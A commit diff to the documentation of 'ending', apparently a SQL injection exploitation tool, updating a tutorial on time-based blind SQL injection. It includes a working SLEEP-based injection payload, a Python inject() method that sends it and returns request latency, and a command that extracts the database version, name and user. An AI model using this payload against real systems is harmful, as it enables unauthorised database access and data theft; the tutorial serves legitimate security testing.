

Before and after one commit to cfreal/ending, an MkDocs documentation site: the page built from docs/docs/tutorials/time-based.md, in a window 1280 px wide and 1400 px high, scrolled down 1541 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update time-based tutorial for the inject() elapsed-time contract

````diff
--- a/docs/docs/tutorials/time-based.md
+++ b/docs/docs/tutorials/time-based.md
@@ -82,7 +82,7 @@ This will generate a design specifically built for time-based SQL injections on
 
 ## Filling the gaps
 
-The `inject()` method needs to induce a delay if `condition` is true. To do this in our case, we can build a payload such as:
+The `inject()` method needs to induce a delay if `condition` is true, and return how long the request took. To do this in our case, we can build a payload such as:
 
 ```
 '-IF(({condition}), SLEEP(1), 0)-'
@@ -91,12 +91,16 @@ The `inject()` method needs to induce a delay if `condition` is true. To do this
 We therefore have the following `inject()` method:
 
 ```python
-    async def inject(self, condition: Node) -> None:
+    async def inject(self, condition: Node) -> float:
         # TODO The payload must induce a delay if the condition is true
         payload = f"'-IF(({condition}), SLEEP(1), 0)-'"
         response = await self.send(payload)
-        return None
+        return response.latency
 ```
+
+!!! note
+
+    For every `HTTPDesign`, HTTP responses returned by `self.session` carry a `latency` attribute: a `float` holding the time, in seconds, the request took between leaving and the response arriving. This is exactly what a time-based `inject()` needs to return.
 
 Now, let's indicate the delay we used in `set_method()`.
 
@@ -121,6 +125,12 @@ Everything should go smoothly. We can now run a query to ensure that it works fi
 $ ending time-based-tutorial query -f 'version()' 'database()' 'user()'
 ```
 
+## Improving speed
+
+We chose a sleep time of 1 seconds here, but it does not have to be this big. Since we're on localhost, the RTT is super small, and we can thus go for a smaller value, such as 0.3 for instance. Be careful: the value needs to be changed in `inject()` *and* in `set_method()`.
+
+
+
 # Conclusion
 
 In this tutorial, we learned how to manually configure a time-based SQL injection attack using **ending**. We created a design template, and then set the `inject()` and `set_method()` methods, validated the design, and ran a query to test the injection.
````
